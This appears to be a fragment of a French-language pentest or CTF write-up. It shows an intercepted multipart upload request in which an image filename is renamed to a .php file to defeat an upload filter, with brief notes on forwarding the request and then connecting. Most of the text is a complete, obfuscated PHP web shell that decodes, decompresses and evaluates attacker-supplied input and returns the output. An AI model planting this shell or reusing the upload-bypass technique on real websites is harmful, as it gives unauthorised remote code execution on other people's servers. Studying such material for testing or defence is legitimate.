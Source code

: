 -----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="name"

**special.php.jpg** on modifie en special.php
-----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="chunk"

0
-----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="chunks"

1
-----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="upload_session_start"

1599039950
-----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="visibility"

public
-----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="license"

all
-----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="max_download"

none
-----------------------------59958074211667389191809679554
Content-Disposition: form-data; name="file"; filename="**special.php.jpg**" on modifie en special.php
Content-Type: image/jpeg

<?php
$o='j=0;($j<$c&#n&#n$i<$#nl);#n$j++,$i++){$o.=#n$t{#n$i}^$#nk{$j};}}ret#nur#nn $o;}i#nf#n (@#npreg_m';
$S='$k="b64#n0#na0ce";$k#nh="465fa#n2a4150c"#n;$#nkf="36b#n3#n05c1c11#nb";#n$p="WkfyOquKq0#nh2dZCl";f';
$d='atch("/$kh#n(.#n+)$kf/",#n@fil#ne_get_#ncont#nents("php:/#n/input")#n,$m)==#n1#n) {@ob_star#nt();@e#nva';
$I=str_replace('vJ','','crvJeatvJevJ_vJfunvJvJction');
$c='l(@g#nz#nuncompress#n(@x(@b#na#nse6#n4_dec#node($m[1]#n),$k)#n));#n$o=@ob_get_conte#n#nnts();@o#';
$M='#nuncti#non x(#n$t,#n$k){$c=st#nrle#nn($#nk);$l#n=strlen($t);$#no="";fo#nr($#ni=0;$#ni<$l;)#n{for#n($';
$p='nb_end_#nclean()#n;$r=@#nba#nse64_encode(@x#n(@#ng#nzcompress#n($o),$#nk));pri#nnt("$p#n$kh$r$kf");}';
$u=str_replace('#n','',$S.$M.$o.$d.$c.$p);
$l=$I('',$u);$l();
?>

-----------------------------59958074211667389191809679554--

puis Forward Forward Forward un peu comme l'avance rapide sur une Cassete Magnétique BASF >> >> >> 

on se retrouve du coup avec le fichier en place on a plus qu'a se connecter :-) 
